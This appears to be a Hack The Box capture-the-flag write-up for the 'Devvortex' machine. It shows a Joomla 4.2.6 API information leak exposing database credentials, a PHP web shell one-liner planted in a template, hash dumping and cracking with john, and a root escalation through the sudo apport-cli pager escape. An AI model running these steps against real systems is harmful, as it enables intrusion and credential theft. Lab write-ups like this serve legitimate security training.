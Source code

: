 ```yaml
---
tags:
  - hack
  - linux
---
```


# HTB: [Devvortex](https://app.hackthebox.com/machines/Devvortex)

> [!tip] Summary with Spoilers
> This was an exercise to use an information leak to gain a foothold on a common CMS, which can then be leveraged into an interactive shell, database access to retrieve password hashes, an easy-to-brute password for the admin's shell account, and then a simple privilege escalation to root.

A full `nmap` scan finds only ports 22 and 80. The web server redirects to `devvortex.htb`, so I add that to `/etc/hosts`.

A `ffuf` scan uncovered a `dev.devvortex.htb` vhost, so I add that as well.

The `dev` site is running Joomla version 4.2.6:

```xml
$ curl http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
<?xml version="1.0" encoding="UTF-8"?>
<extension type="file" method="upgrade">
        <name>files_joomla</name>
        <author>Joomla! Project</author>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <copyright>(C) 2019 Open Source Matters, Inc.</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <version>4.2.6</version>
        <creationDate>2022-12</creationDate>
        <description>FILES_JOOMLA_XML_DESCRIPTION</description>
[...]
```

This version has an [information leak](https://vulncheck.com/blog/joomla-for-rce) that exposes admin credentials:

```json
$ curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```

The credentials above don't work for `ssh`, unfortunately.

But, they work for <http://dev.devvortex.htb/administrator/index.php>.

There's also a user `logan`:

```json
$ curl http://dev.devvortex.htb/api/index.php/v1/users?public=true
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/users?public=true"},"data":[{"type":"users","id":"649","attributes":{"id":649,"name":"lewis","username":"lewis","email":"lewis@devvortex.htb","block":0,"sendEmail":1,"registerDate":"2023-09-25 16:44:24","lastvisitDate":"2023-11-27 18:43:58","lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Super Users"}},{"type":"users","id":"650","attributes":{"id":650,"name":"logan paul","username":"logan","email":"logan@devvortex.htb","block":0,"sendEmail":0,"registerDate":"2023-09-26 19:15:42","lastvisitDate":null,"lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Registered"}}],"meta":{"total-pages":1}}
```

I added a PHP web shell to the `error.php` template:

![](_/htb-devvortex-20231127-2.png)

Web shell above is this: `if(isset($_GET['cmd'])) { system($_GET['cmd']); }`

Visiting `http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=id` works:

![](_/htb-devvortex-20231127-3.png)

From there I'm able to launch a URL-encoded `python3` reverse shell for an interactive cmdline. I connect to the `mysql` instance using the credientials I discovered via the information leak mentioned above, and I dump the `users` table to grab password hashes:

```sql
mysql> select * from sd4fg_users;
select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-27 18:43:58 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
```

`john` finds the password quickly:

```console
$ john --wordlist=~/rockyou.txt ./hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequie[...]      (?)     
1g 0:00:00:04 DONE (2023-11-27 13:23) 0.2028g/s 284.7p/s 284.7c/s 284.7C/s winston..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

And that gives me the user flag:

```text
www-data@devvortex:~$ su - logan
su - logan
Password: tequie[...]

logan@devvortex:~$ cat user.txt
cat user.txt
87a817[...]
```

Checking for `sudo` privileges:

```text
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

`apport-cli` is a crash-reporting utility. This version is vulnerable to the pager-escape trick if run via `sudo`:

First I look for a crash report to use with the tool:

```text
logan@devvortex:~$ find / -name '*.crash' 2>/dev/null
/var/crash/_usr_bin_apport-cli.0.crash
```

with that I'll run `apport-cli` via `sudo` and wait for `less` to pause the output, and then I use `!sh` to spawn a root shell for the flag:

```console
logan@devvortex:~$ sudo /usr/bin/apport-cli /var/crash/_usr_bin_apport-cli.0.crash

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (30.2 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
[... lots of output, eventually less is triggered ...]
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
e49cc7[...]
```
